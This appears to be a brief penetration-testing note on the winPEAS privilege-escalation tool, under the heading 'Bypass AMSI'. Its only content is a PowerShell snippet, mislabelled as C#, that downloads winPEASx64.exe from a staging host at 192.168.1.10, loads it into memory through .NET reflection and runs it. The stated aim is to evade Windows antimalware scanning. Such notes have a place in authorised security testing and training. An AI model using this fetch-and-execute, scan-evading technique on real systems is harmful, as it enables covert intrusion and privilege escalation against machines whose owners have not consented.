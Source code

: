 # winPEAS





## Bypass AMSI

```csharp
$ass = (new-object net.webclient).DownloadData('http://192.168.1.10/tools/winPEASx64.exe')
$assem = [System.Reflection.Assembly]::Load($ass)
[WinPEAS.Program]::main("")
```

